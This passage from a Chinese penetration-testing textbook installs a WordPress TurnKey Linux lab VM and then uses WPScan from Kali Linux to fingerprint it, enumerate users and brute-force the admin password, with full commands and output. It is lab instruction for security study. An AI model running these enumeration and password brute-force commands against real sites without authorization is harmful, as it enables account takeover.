

3.2 攻击WordPress和其他应用程序
今天越来越多的企业利用SAAS（Software as a Service）工具应用在他们的业务中。例如，他们经常使用WordPress作为他们网站的内容管理系统，或者在局域网中使用Drupal框架。从这些应用程序中找到漏洞，是非常有价值的。
为了收集用于测试的应用程序，Turnkey Linux是一个非常好的资源。Turnkey工具的官方网站是http://www.turnkeylinux.org。本节将下载最流行的WordPress Turnkey Linux发行版。
3.2.1 获取WordPress应用程序
获取WordPress应用程序的具体操作步骤如下所示。
（1）在浏览器中输入http://www.turnkeylinux.org地址，打开的界面如图3.8所示。从该界面下载Turnkey Linux。
图3.8 Turnkey主页
（2）在该页面列出了许多程序，可以通过向下滚动鼠标查看。由于篇幅的原因，图3.8只截取了一少部分内容。在该页面中，用户可以尝试使用各种软件查找漏洞，并通过工具对这些应用程序来测试用户的技术。本例中将选择测试WordPress，向下滚动鼠标可以看到Instant Search对话框，如图3.9所示。
图3.9 立即搜索
（3）在该对话框中输入WordPress，然后按下回车键，将显示如图3.10所示的界面。
图3.10 WordPress应用程序
（4）在该界面可以看到WordPress程序已经找到，此时单击WordPress-Blog Publishing Platform链接进入下载页面，如图3.11所示。
图3.11 Turnkey下载页面
（5）在该界面选择下载ISO映像文件。单击220MB ISO链接，将显示如图3.12所示的界面。
图3.12 设置邮箱地址
（6）该界面提示为了安全，需要填写一个邮箱地址。填写完后，单击Subscribe and go straight to download按钮，将开始下载Turnkey WordPress软件。
3.2.2 安装WordPress Turnkey Linux
本小节将介绍在VMware Workstation中安装WordPress Turnkey Linux。关于VMware Workstation的使用，在第1章中已经详细介绍过，这里就不再赘述。安装WordPress Turnkey Linux的具体操作步骤如下所示。
（1）将前面下载的ISO文件导入到光驱中，然后启动此虚拟机，将显示如图3.13所示的界面。
图3.13 TURNKEY初始界面
（2）在该界面选择Install to hard disk选项，按下“回车键”，将显示如图3.14所示的界面。
图3.14 选择分区方法
（3）该界面是选择分区的方法。该系统提供了三种方法，分别是使用整个磁盘并设置LVM、使用整个磁盘和手动分区。这里选择第一种，然后单击OK按钮，将显示如图3.15所示的界面。
图3.15 将数据写入磁盘
（4）该界面显示了分区的信息，这里提示是否将写入改变磁盘并配置LVM呢？如果想要重新分配分区的话，就单击No按钮，否则单击Yes按钮。本例中单击Yes按钮，将显示如图3.16所示的界面。
图3.16 LVM信息
（5）该界面显示了LVM的配置信息。单击OK按钮，将显示如图3.17所示的界面。

图3.17 使用引导分区的卷组
（6）该界面提示使用引导分区的卷组来安装系统。此时，单击OK按钮，将显示如图3.18所示的界面。
图3.18 磁盘分区表
（7）该界面显示了磁盘的分区表信息，此时提示是否要写入数据。这里单击Yes按钮，将显示如图3.19所示的界面。
图3.19 复制数据到磁盘
（8）该界面显示了复制数据的磁盘的一个进度。复制完后，将显示如图3.20所示的 界面。
图3.20 安装GRUB引导
（9）该界面提示是否安装GRUB引导加载程序的主引导记录。这里单击Yes按钮，将显示如图3.21所示的界面。
图3.21 是否重启系统
（10）该界面显示WordPress Turnkey Linux已经安装完成，是否现在重新启动系统。单击Yes按钮，将显示如图3.22所示的界面。
图3.22 Root密码
（11）在该界面为Root用户设置一个密码。输入密码后，单击OK按钮，将显示如图3.23所示的界面。
图3.23 Root确认密码
（12）该界面要求再次为Root用户输入相同的密码，单击OK按钮，将显示如图3.24所示的界面。
图3.24 MySQL密码
（13）在该界面为MySQL服务的Root用户设置一个密码，设置完后单击OK按钮，将显示如图3.25所示的界面。
图3.25 MySQL确认密码
（14）在该界面再次为MySQL服务的Root用户输入相同的密码，然后单击OK按钮，将显示如图3.26所示的界面。
图3.26 Wordpress用户admin密码
（15）在该界面要求为Wordpress的用户admin设置一个密码，输入密码后，单击OK按钮，将显示如图3.27所示的界面。
图3.27 Wordpress用户admin确认密码
（16）在该界面再次为Wordpress用户admin输入相同的密码，然后单击OK按钮，将显示如图3.28所示的界面。
图3.28 设置邮件地址
（17）该界面提示为Wordpress用户admin设置一个邮件地址，这里使用默认的admin@example.com。然后单击Apply按钮，将显示如图3.29所示的界面。
图3.29 Initialize Hub Services
（18）该界面显示了初始化Hub服务信息，在该界面单击Skip按钮，将显示如图3.30所示的界面。
图3.30 Security updates
（19）该界面提示是否现在安装安全更新，这里单击Install按钮，将显示如图3.31所示的界面。
图3.31 WORDPRESS appliance services
（20）该界面显示了WordPress应用服务的详细信息，如Web地址、Web shell地址和端口、Webmin地址、PHPMyAdmin地址和端口及SSH/SFTP地址和端口等。此时，表明WordPress Turnkey Linux就可以使用了。
3.2.3 攻击WordPress应用程序
上一小节介绍了WordPress虚拟机的安装。现在就可以启动WordPress虚拟机，在Kali Linux下使用WPScan攻击它。WPScan是一个黑盒安全扫描器，它允许用户查找Word Press安装版的一些已知的安全漏洞。本小节将介绍使用WPScan工具攻击WordPress应用程序。
WPScan在Kali Linux中已经默认安装。它的语法格式如下所示：
wpscan [选项] [测试]
常用的选项如下所示。
- --update：更新到最新版本。
- --url|-u <target url>：指定扫描WordPress的URL（统一资源定位符）或域名。
- --force |-f：如果远程站点正运行WordPress，强制WPScan不检查。
- --enumerate |-e [option(s)]：计算。该参数可用的选项有u、u[10-20]、p、vp、ap、tt、t、vt和at。其中u表示用户名从id1到10；u[10-20]表示用户名从id10到20（[]中的字符必须写）；p表示插件程序；vp表示仅漏洞插件程序；ap表示所有插件程序（可能需要一段时间）；tt表示timthumbs；t表示主题；vt表示仅漏洞主题；at表示所有主题（可能需要一段时间）。
【实例3-1】使用WPScan攻击WordPress程序的具体操作步骤如下所示。
（1）在Kali Linux下，查看WPScan的帮助信息。执行命令如下所示：
root@localhost:~# wpscan -h
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_|
WordPress Security Scanner by the WPScan Team
Version v2.2
Sponsored by the RandomStorm Open Source Initiative
@_WPScan_, @ethicalhack3r, @erwan_lr, @gbrindisi, @_FireFart_
_______________________________________________________________
Help :
Some values are settable in conf/browser.conf.json :
user-agent, proxy, proxy-auth, threads, cache timeout and request timeout
......
m conf/browser.conf.json).
--basic-auth <username:password> Set the HTTP Basic authentication
--wordlist | -w <wordlist> Supply a wordlist for the password bruter and do the brute.
--threads | -t <number of threads> The number of threads to use when multi-threading
requests. (will override the value from conf/browser. conf.json)
--username | -U <username> Only brute force the supplied username.
--help | -h This help screen.
--verbose | -v Verbose output.
Examples :
-Further help ...
ruby ./wpscan.rb --help
-Do 'non-intrusive' checks ...
ruby ./wpscan.rb --url www.example.com
-Do wordlist password brute force on enumerated users using 50 threads ...
ruby ./wpscan.rb --url www.example.com --wordlist darkc0de.lst --threads 50
-Do wordlist password brute force on the 'admin' username only ...
ruby ./wpscan.rb --url www.example.com --wordlist darkc0de.lst --username admin
......
执行以上命令后，会输出大量信息。输出的信息中显示了WPScan的版本信息、使用方法及WPScan的例子等。由于篇幅的原因，这里贴了一部分内容，其他使用省略号（……）取代。
（2）使用WPScan攻击WordPress虚拟机。本例中，WordPress的IP地址是192.168.41.130。执行命令如下所示：
root@localhost:~# wpscan -u 192.168.41.130
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __
\ \/ \/ /| ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_|
WordPress Security Scanner by the WPScan Team
Version v2.2
Sponsored by the RandomStorm Open Source Initiative
@_WPScan_, @ethicalhack3r, @erwan_lr, @gbrindisi, @_FireFart_
_______________________________________________________________
| URL: http://192.168.41.130/
| Started: Thu Apr 17 13:49:37 2014
[!] The WordPress 'http://192.168.41.130/readme.html' file exists
[+] Interesting header: SERVER: Apache/2.2.22 (Debian)
[+] Interesting header: X-POWERED-BY: PHP/5.4.4-14+deb7u8
[+] XML-RPC Interface available under: http://192.168.41.130/xmlrpc.php
[+] WordPress version 3.6.1 identified from meta generator
[+] WordPress theme in use: twentythirteen v1.0
| Name: twentythirteen v1.0
| Location: http://192.168.41.130/wp-content/themes/twentythirteen/
[+] Enumerating plugins from passive detection ...
No plugins found
[+] Finished: Thu Apr 17 13:49:41 2014
[+] Memory used: 2.414 MB
[+] Elapsed time: 00:00:03
输出的信息显示了WPScan一个简单的攻击过程。
（3）列出用户名列表，执行命令如下所示：
root@localhost:~# wpscan -u 192.168.41.130 -e u vp
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_|
WordPress Security Scanner by the WPScan Team
Version v2.2
Sponsored by the RandomStorm Open Source Initiative
@_WPScan_, @ethicalhack3r, @erwan_lr, @gbrindisi, @_FireFart_
_______________________________________________________________
| URL: http://192.168.41.130/
| Started: Thu Apr 17 13:50:49 2014
[!] The WordPress 'http://192.168.41.130/readme.html' file exists
[+] Interesting header: SERVER: Apache/2.2.22 (Debian)
[+] Interesting header: X-POWERED-BY: PHP/5.4.4-14+deb7u8
[+] XML-RPC Interface available under: http://192.168.41.130/xmlrpc.php
[+] WordPress version 3.6.1 identified from meta generator
[+] WordPress theme in use: twentythirteen v1.0
| Name: twentythirteen v1.0
| Location: http://192.168.41.130/wp-content/themes/twentythirteen/
[+] Enumerating plugins from passive detection ...
No plugins found
[+] Enumerating usernames ...
[+] We found the following 1 user/s:
+----+-------+-------+
| Id | Login | Name |
+----+-------+-------+
| 1 | admin | admin |
+----+-------+-------+
[+] Finished: Thu Apr 17 13:50:54 2014
[+] Memory used: 2.379 MB
[+] Elapsed time: 00:00:04
从输出的信息中可以看到当前系统中只有一个用户，名为admin。
（4）为WPScan指定一个wordlist文件，使用--wordlist <path to file>选项。执行命令如下所示：
root@localhost:~# wpscan -u 192.168.41.130 -e u --wordlist /root/ wordlist.txt
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_|
WordPress Security Scanner by the WPScan Team
Version v2.2
Sponsored by the RandomStorm Open Source Initiative
@_WPScan_, @ethicalhack3r, @erwan_lr, @gbrindisi, @_FireFart_
_______________________________________________________________
| URL: http://192.168.41.130/
| Started: Thu Apr 17 13:54:51 2014
[!] The WordPress 'http://192.168.41.130/readme.html' file exists
[+] Interesting header: SERVER: Apache/2.2.22 (Debian)
[+] Interesting header: X-POWERED-BY: PHP/5.4.4-14+deb7u8
[+] XML-RPC Interface available under: http://192.168.41.130/xmlrpc.php
[+] WordPress version 3.6.1 identified from meta generator
[+] WordPress theme in use: twentythirteen v1.0
| Name: twentythirteen v1.0
| Location: http://192.168.41.130/wp-content/themes/twentythirteen/
[+] Enumerating plugins from passive detection ...
No plugins found
[+] Enumerating usernames ...
[+] We found the following 1 user/s:
+----+-------+-------+
| Id | Login | Name |
+----+-------+-------+
| 1 | admin | admin |
+----+-------+-------+
[+] Starting the password brute forcer
Brute Forcing 'admin' Time: 00:00:00 < > (59 / 20575) 0.28%
ETA: 00:00:00
[SUCCESS] Login : admin Password : 123456
+----+-------+-------+----------+
| Id | Login | Name | Password |
+----+-------+-------+----------+
| 1 | admin | admin | 123456 |
+----+-------+-------+----------+
[+] Finished: Thu Apr 17 13:54:56 2014
[+] Memory used: 2.508 MB
[+] Elapsed time: 00:00:05
从输出的信息中，可以看到WordPress用户admin的密码已被破解出。